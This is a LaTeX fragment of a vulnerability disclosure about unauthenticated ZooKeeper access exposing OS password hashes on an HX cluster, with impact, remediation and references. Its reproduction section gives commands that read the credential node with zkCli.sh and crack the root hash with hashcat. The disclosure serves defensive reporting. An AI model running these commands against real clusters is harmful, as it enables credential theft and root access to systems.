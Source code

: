 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection*{Reproduction}

\begin{lstlisting}[style=shell]
# Read hashes from ZooKeeper -- no credentials required:
zkCli.sh -server <ctlvm_ip>:2181 get /user_credentials

# Extract individual hashes and crack offline:
echo '<root_sha256crypt_hash>' > hashes.txt
hashcat -m 7400 hashes.txt /usr/share/wordlists/rockyou.txt
\end{lstlisting}

\subsection*{Impact}

Live OS password hashes for three privileged accounts are readable without
authentication. Cracked root hash yields SSH root access to all cluster nodes.
Cracked admin hash yields full HX Connect cluster management access.

\subsection*{Remediation}

\begin{enumerate}[noitemsep]
\item Apply a restrictive ACL on \texttt{/user\_credentials} in ZooKeeper
  (\texttt{digest:hxservice:rwcda}).
\item Replace SHA-256 crypt with bcrypt or scrypt to increase cracking cost.
\item Disable \texttt{PermitRootLogin} on stCtlVM nodes.
\item Consider eliminating ZooKeeper as a credential sync bus; use a dedicated
  secrets manager with per-node delivery instead.
\end{enumerate}

\subsection*{References}

\begin{itemize}[noitemsep]
\item CWE-916: Use of Password Hash with Insufficient Computational Effort ---
  \url{https://cwe.mitre.org/data/definitions/916.html}
\item NIST SP 800-63B, Section 5.1.1.2: Password hashing requirements
\end{itemize}
\end{document}
